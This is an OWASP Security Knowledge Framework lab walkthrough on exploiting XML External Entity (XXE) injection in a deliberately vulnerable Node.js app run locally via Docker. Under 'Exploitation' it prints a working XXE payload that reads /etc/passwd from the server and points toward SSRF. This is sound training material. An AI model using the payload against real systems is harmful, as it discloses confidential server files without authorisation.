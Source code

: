 # XXE

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-xxe
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-xxe
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Processing of an Xml eXternal Entity containing tainted data may lead to the disclosure of confidential information and other system impacts. The XML 1.0 standard defines the structure of an XML document. The standard defines a concept called an entity, which is a storage unit of some type.There exists a specific type of entity, an external general parsed entity often shortened to an external entity, that can access local or remote content via a declared system identifier and the XML processor may disclose confidential information normally not accessible by the application. Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data.

![](../../.gitbook/assets/nodejs/XXE/1.png)

When we start the application we can see that the application uses the following XML tags and use those to display information on the website in a nice manner. First we load the normal file and submit this in the application.

![](../../.gitbook/assets/nodejs/XXE/2.png)

## Exploitation

In order to to exploit this vulnerability we need to craft a special XML header that will allow us for example read local files from the server.

```markup
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<items><item name="item1">a</item>
<item name="item2">&xxe;</item>
<item name="item3">c</item>
<item name="item4">d</item>
</items>
```

When we inject the above XML content we can see in the response of the application that we successfully have included the local file from the server.

![](../../.gitbook/assets/nodejs/XXE/3.png)

We now used the **file://** to read local files from the server but there are many other attack vectors you can do with this vulnerability, do some research and also try the other ones like the Server Side Request Forgery for example.

## Additional sources

{% embed url="https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing" %}
